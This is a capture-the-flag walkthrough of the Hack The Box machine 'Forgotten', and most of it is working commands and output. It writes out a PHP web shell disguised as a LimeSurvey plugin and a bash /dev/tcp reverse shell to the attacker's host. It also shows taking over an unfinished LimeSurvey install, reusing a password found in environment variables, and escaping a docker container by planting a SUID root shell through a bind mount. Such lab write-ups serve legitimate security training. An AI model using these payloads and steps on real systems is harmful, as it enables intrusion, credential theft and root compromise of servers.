






# Target
| Category          | Details                                                    |
|-------------------|------------------------------------------------------------|
| 📝 **Name**       | [Forgotten](https://app.hackthebox.com/machines/Forgotten) |  
| 🏷 **Type**       | HTB Machine                                                |
| 🖥 **OS**         | Linux                                                      |
| 🎯 **Difficulty** | Easy                                                       |
| 📁 **Tags**       | LimeSurvey, docker escape                                  |

### User flag

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Forgotten]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-06-18 14:38 +0200
Nmap scan report for 10.129.234.81
Host is up (0.026s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 28:c7:f1:96:f9:53:64:11:f8:70:55:68:0b:e5:3c:22 (ECDSA)
|_  256 02:43:d2:ba:4e:87:de:77:72:ce:5a:fa:86:5c:0d:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: 403 Forbidden
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.57 seconds
```

#### Enumerate web application
```
┌──(magicrc㉿perun)-[~/attack/HTB Forgotten]
└─$ feroxbuster --url http://$TARGET/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt          
<SNIP>
301      GET        9l       28w      315c http://10.129.234.81/survey => http://10.129.234.81/survey/
<SNIP>
```

#### Discover unfinished installation of LimeSurvey at `//survey`


#### Start MySQL on attacker
```
┌──(magicrc㉿perun)-[~/Tools]
└─$ docker run -d --name mysql-ctf -e MYSQL_ROOT_PASSWORD=pass -p 3306:3306 mysql:8
7fab14c87911c7c35b06df33727bf06fbc2f6cdacbf6ea4ca0d8af348ab66f77
```

#### Configure LimeSurvey to use attacker MySQL


#### Set admin password to `pass`


#### Log in to LimeSurvey instance


#### Prepare web shell LimeSurvey plugin
```
┌──(magicrc㉿perun)-[~/attack/HTB Forgotten]
└─$ mkdir -p WebShell && \
{ cat <<'EOF'> WebShell/config.xml
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>WebShell</name>
        <type>plugin</type>
        <creationDate>2026-06-18</creationDate>
        <author>magicrc</author>
        <version>1.0</version>
        <license>GPL</license>
        <description>Web shell</description>
    </metadata>
    <compatibility><version>3.0</version><version>4.0</version><version>5.0</version><version>6.0</version></compatibility>
</config>
EOF
} && { cat <<'EOF'> WebShell/WebShell.php
<?php
    if(isset($_REQUEST['cmd'])) {
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
    }
?>
EOF
} && cd WebShell && zip -r ../WebShell.zip . && cd ..
updating: config.xml (deflated 52%)
updating: WebShell.php (deflated 41%)
  adding: config.xml (deflated 52%)
  adding: WebShell.php (deflated 35%)
```

#### Install web shell plugin


#### Activate web shell plugin


#### Confirm web shell plugin is inplace
```
┌──(magicrc㉿perun)-[~/attack/HTB Forgotten]
└─$ curl http://$TARGET/survey/upload/plugins/WebShell.php?cmd=id
<pre>uid=2000(limesvc) gid=2000(limesvc) groups=2000(limesvc),27(sudo)
</pre><pre>uid=2000(limesvc) gid=2000(limesvc) groups=2000(limesvc),27(sudo)
</pre>
<SNIP>
```

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Forgotten]
└─$ nc -lvnp $LPORT
listening on [any] 4444 ...
```

#### Spawn reverse shell connection using web shell plugin
```
┌──(magicrc㉿perun)-[~/attack/HTB Forgotten]
└─$ CMD=$(echo "/bin/bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'" | jq -sRr @uri) && \
curl "http://$TARGET/survey/upload/plugins/WebShell.php?cmd=$CMD"
```

#### Confirm foothold gained
```
connect to [10.10.14.69] from (UNKNOWN) [10.129.234.81] 56334
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
limesvc@efaa6f5097ed:/var/www/html/survey$ id
uid=2000(limesvc) gid=2000(limesvc) groups=2000(limesvc),27(sudo)
```

#### Confirm foothold in docker container
```
limesvc@efaa6f5097ed:/$ ls -la /.dockerenv
-rwxr-xr-x 1 root root 0 Dec  2  2023 /.dockerenv
limesvc@efaa6f5097ed:/$ cat /proc/self/mountinfo | grep -E 'overlay|docker'
778 741 0:44 / / rw,relatime - overlay overlay rw,lowerdir=/var/lib/docker/overlay2/l/53HNCQFKU7UT4MRNHXETIEU7PS:/var/lib/docker/overlay2/l/EC46IKT2LF6IUMTKX5EYK6Y6NS:/var/lib/docker/overlay2/l/AVXFR7EGT4F5744IOUZXTAPAXP:/var/lib/docker/overlay2/l/P5AO7VJP3KS26RV7L4G4A3CQMO:/var/lib/docker/overlay2/l/DUMS4MOPBZYYCT5MLU3KOIHV67:/var/lib/docker/overlay2/l/E6PFD55HUOLSDVI5HFVSG2MKY6:/var/lib/docker/overlay2/l/F2C2GU57ABILW44DR6N7IOAS2U:/var/lib/docker/overlay2/l/MTDNHTDTAHLYFOE23OONITLATE:/var/lib/docker/overlay2/l/HVR5FUOEP75JC4WLOLQCLICZW5:/var/lib/docker/overlay2/l/45JVDGBN2HJGR4ZFC56CA3QEFE:/var/lib/docker/overlay2/l/BLHTPLHTIDJITGF5LG7NDGIHIQ:/var/lib/docker/overlay2/l/ON6NXIXZRZZCFUPSYDLFPND5XG:/var/lib/docker/overlay2/l/URCYD6PEIO427ROGBDDSPOX7X4:/var/lib/docker/overlay2/l/TKNY7I37KDSR7UM34B7EAJWLEX:/var/lib/docker/overlay2/l/NI6IE4U3RKI3MI3XAZ7VSTRT5U:/var/lib/docker/overlay2/l/R2CP4KV5O4GJ4TW3FS73ARJZUR:/var/lib/docker/overlay2/l/JENNFERKWWS2TYSPK7WT7IGYT4:/var/lib/docker/overlay2/l/MMP56DFNWIP27YOKHUYTI3CVJ4:/var/lib/docker/overlay2/l/UBBT3YOEP4MEDPPJR5X4D474QX:/var/lib/docker/overlay2/l/ZHODKFSJJ4IAMIIQW7GBHG5QA3:/var/lib/docker/overlay2/l/WHNHWNHOFTA3DGNRVL3B3MMNY6:/var/lib/docker/overlay2/l/TQ6Z55HNEUJUXYWNUWJ4E5BLR3:/var/lib/docker/overlay2/l/UVBX7ES72OROVYQQPYGPTEIA4D:/var/lib/docker/overlay2/l/HCBBV74XSEA5GRAMKLUM7VELUP:/var/lib/docker/overlay2/l/VNQTVVELYXHIW5JNA2W7VHHGHA,upperdir=/var/lib/docker/overlay2/1a43e7d4669803c0891d7262954f27e54c5528c77990d3da808fa53d6b67ccdf/diff,workdir=/var/lib/docker/overlay2/1a43e7d4669803c0891d7262954f27e54c5528c77990d3da808fa53d6b67ccdf/work,uuid=null,nouserxattr
787 778 8:1 /var/lib/docker/containers/efaa6f5097edd5289e5af809a8885d4eae195426317ee5cdba47c1ff7c1ca68d/resolv.conf /etc/resolv.conf rw,relatime - ext4 /dev/root rw,discard,errors=remount-ro
788 778 8:1 /var/lib/docker/containers/efaa6f5097edd5289e5af809a8885d4eae195426317ee5cdba47c1ff7c1ca68d/hostname /etc/hostname rw,relatime - ext4 /dev/root rw,discard,errors=remount-ro
789 778 8:1 /var/lib/docker/containers/efaa6f5097edd5289e5af809a8885d4eae195426317ee5cdba47c1ff7c1ca68d/hosts /etc/hosts rw,relatime - ext4 /dev/root rw,discard,errors=remount-ro
limesvc@efaa6f5097ed:/$ ifconfig 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 15871  bytes 3646168 (3.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15936  bytes 13122108 (12.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 802  bytes 63904 (62.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 802  bytes 63904 (62.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

#### Discover plaintext password in env vars
```
limesvc@efaa6f5097ed:/var/www/html/survey$ env | grep -i pass
LIMESURVEY_PASS=5W5HN4K4GCXf9E
```

#### Confirm full sudo privileges inside container with recovered password
```
limesvc@efaa6f5097ed:/$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for limesvc: 
Matching Defaults entries for limesvc on efaa6f5097ed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User limesvc may run the following commands on efaa6f5097ed:
    (ALL : ALL) ALL
```

#### Pivot to host via SSH with reused credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Forgotten]
└─$ ssh limesvc@$TARGET
(limesvc@10.129.234.81) Password: 
<SNIP>>
limesvc@forgotten:~$ id
uid=2000(limesvc) gid=2000(limesvc) groups=2000(limesvc)
```

#### Capture user flag
```
limesvc@forgotten:~$ cat /home/limesvc/user.txt 
1c45d347be12ed37b896e4f61b2d537d
```

### Root flag

#### Enumerate container mounts and identify host bind mount
```
limesvc@efaa6f5097ed:/$ findmnt
TARGET                  SOURCE                     FSTYPE  OPTIONS
<SNIP>>
|-/etc/resolv.conf      /dev/root[/var/lib/docker/containers/efaa6f5097edd5289e5af809a8885d4eae195426317ee5cdba47c1ff7c1ca68d/resolv.conf]
|                                                  ext4    rw,relatime,discard,e
|-/etc/hostname         /dev/root[/var/lib/docker/containers/efaa6f5097edd5289e5af809a8885d4eae195426317ee5cdba47c1ff7c1ca68d/hostname]
|                                                  ext4    rw,relatime,discard,e
|-/etc/hosts            /dev/root[/var/lib/docker/containers/efaa6f5097edd5289e5af809a8885d4eae195426317ee5cdba47c1ff7c1ca68d/hosts]
|                                                  ext4    rw,relatime,discard,e
`-/var/www/html/survey  /dev/root[/opt/limesurvey] ext4    rw,relatime,discard,e
```

#### Abuse bind-mounted directory to plant SUID root shell on host
```
limesvc@efaa6f5097ed:/$ sudo su
root@efaa6f5097ed:/# cp /bin/bash /var/www/html/survey/root_shell && chmod 4755 /var/www/html/survey/root_shell
```

#### Confirm root shell planted
```
limesvc@forgotten:~$ ls -la /opt/limesurvey/root_shell 
-rwsr-xr-x 1 root root 1234376 Jun 19 14:34 /opt/limesurvey/root_shell
```

#### Execute SUID shell from host to gain root
```
limesvc@forgotten:~$ /opt/limesurvey/root_shell -p
root_shell-5.1# id
uid=2000(limesvc) gid=2000(limesvc) euid=0(root) groups=2000(limesvc)
```

#### Capture root flag
```
root_shell-5.1# cat /root/root.txt
f862a5cd39fba80c0198e9edc31d7045
```
